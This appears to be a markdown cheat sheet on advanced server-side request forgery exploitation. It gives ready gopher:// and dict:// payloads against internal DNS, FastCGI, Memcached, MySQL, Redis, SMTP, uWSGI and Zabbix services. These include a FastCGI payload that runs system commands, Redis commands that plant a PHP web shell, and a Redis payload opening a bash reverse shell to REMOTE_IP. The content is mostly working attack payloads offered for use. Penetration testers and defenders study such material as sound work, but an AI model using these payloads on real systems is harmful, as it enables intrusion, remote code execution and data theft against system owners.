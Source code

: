 # SSRF Advanced Exploitation

> Some services (e.g., Redis, Elasticsearch) allow unauthenticated data writes or command execution when accessed directly. An attacker could exploit SSRF to interact with these services, injecting malicious payloads like web shells or manipulating application state.

## Summary 

* [DNS AXFR](#dns-axfr)
* [FastCGI](#fastcgi)
* [Memcached](#memcached)
* [MySQL](#memcached)
* [Redis](#redis)
* [SMTP](#smtp)
* [WSGI](#wsgi)
* [Zabbix](#zabbix)
* [References](#references)


## DNS AXFR

Query an internal DNS resolver to trigger a full zone transfer (**AXFR**) and exfiltrate a list of subdomains.

```py
from urllib.parse import quote
domain,tld = "example.lab".split('.')
dns_request =  b"\x01\x03\x03\x07"    # BITMAP
dns_request += b"\x00\x01"            # QCOUNT
dns_request += b"\x00\x00"            # ANCOUNT
dns_request += b"\x00\x00"            # NSCOUNT
dns_request += b"\x00\x00"            # ARCOUNT
dns_request += len(domain).to_bytes() # LEN DOMAIN
dns_request += domain.encode()        # DOMAIN
dns_request += len(tld).to_bytes()    # LEN TLD
dns_request += tld.encode()           # TLD
dns_request += b"\x00"                # DNAME EOF
dns_request += b"\x00\xFC"            # QTYPE AXFR (252)
dns_request += b"\x00\x01"            # QCLASS IN (1)
dns_request = len(dns_request).to_bytes(2, byteorder="big") + dns_request
print(f'gopher://127.0.0.1:25/_{quote(dns_request)}')
```

Example of payload for `example.lab`: `gopher://127.0.0.1:25/_%00%1D%01%03%03%07%00%01%00%00%00%00%00%00%07example%03lab%00%00%FC%00%01`

```ps1
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%256d%2570%256c%2565%2503%256c%2561%2562%2500%2500%25fc%2500%2501' http://localhost:5000/ssrf --output - | xxd
```


## FastCGI

Requires to know the full path of one PHP file on the server, by default the exploit is using `/usr/share/php/PEAR.php`.

```ps1
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/usr/share/php/PEAR.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27whoami%27%29%3F%3E%00%00%00%00
```


## Memcached

Memcached communicates over port 11211 by default. While it is primarily used for storing serialized data to enhance application performance, vulnerabilities can arise during the deserialization of this data.

```ps1
python2.7 ./gopherus.py --exploit pymemcache
python2.7 ./gopherus.py --exploit rbmemcache
python2.7 ./gopherus.py --exploit phpmemcache
python2.7 ./gopherus.py --exploit dmpmemcache
```

## MySQL

MySQL user should not be password protected.

```ps1
$ python2.7 ./gopherus.py --exploit mysql
Give MySQL username: root
Give query to execute: SELECT 123;

gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%0c%00%00%00%03%53%45%4c%45%43%54%20%31%32%33%3b%01%00%00%00%01
```

## Redis

> Redis is a database system that stores everything in RAM

The attacker changes Redis's dump directory to the web server's document root (`/var/www/html`) and renames the dump file to `file.php`, ensuring that when the database is saved, it generates a PHP file. They then create a Redis key (`mykey`) containing the web shell code, which enables remote command execution via HTTP GET parameters. Finally, the `SAVE` command forces Redis to write the current in-memory database to disk, resulting in the creation of the malicious web shell at `/var/www/html/file.php`.

```ps1
CONFIG SET dir /var/www/html
CONFIG SET dbfilename file.php
SET mykey "<?php system($_GET[0])?>"
SAVE
```

* Getting a webshell with `dict://`
    ```powershell
    dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
    dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
    dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
    dict://127.0.0.1:6379/SAVE
    ```

* Getting a PHP reverse shell with `gopher://`
    ```powershell
    gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
    gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
    gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
    gopher://127.0.0.1:6379/_save
    ```

## SMTP

Malicious actors can craft `gopher://` URLs to manipulate low-level protocols (like HTTP or SMTP) on internal systems.

```ps1
gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A
```

The following PHP script can be used to generate a page that will redirect to the `gopher://` payload.

```php
<?php
    $commands = array(
            'HELO victim.com',
            'MAIL FROM: <admin@victim.com>',
            'RCPT To: <hacker@attacker.com>',
            'DATA',
            'Subject: @hacker!',
            'Hello Friend',
            '.'
    );
    $payload = implode('%0A', $commands);
    header('Location: gopher://0:25/_'.$payload);
?>
```


## WSGI

Exploit using the Gopher protocol, full exploit script available at [wofeiwo/webcgi-exploits/uwsgi_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py).

```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| Header    |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 byte)  | 0 (%00)     |
| datasize  | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte)  | 0 (%00)     |

| Variable (UWSGI_FILE) |           |    |                |
|-----------------------|-----------|----|----------------|
| key length            | (2 bytes) | 10 | (%0A%00)       |
| key data              | (m bytes) |    | UWSGI_FILE     |
| value length          | (2 bytes) | 12 | (%0C%00)       |
| value data            | (n bytes) |    | /tmp/test.py   |


## Zabbix

If `EnableRemoteCommands=1` is enabled in the Zabbix Agent configuration, it allows the execution of remote commands.

```ps1
gopher://127.0.0.1:10050/_system.run%5B%28id%29%3Bsleep%202s%5D
```


## References

- [SSRFmap - Introducing the AXFR Module - Swissky - June 13, 2024](https://resources.khulnasoft.com/SSRFmap-axfr/)
- [How I Converted SSRF to XSS in Jira - Ashish Kunwar - June 1, 2018](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
- [Pong [EN] | FCSC 2024 - Arthur Deloffre (@Vozec1) - April 12, 2024](https://vozec.fr/writeups/pong-fcsc2024-en/)
- [Pong [EN] | FCSC 2024 - Kévin - Mizu (@kevin_mizu) - April 13, 2024](https://mizu.re/post/pong)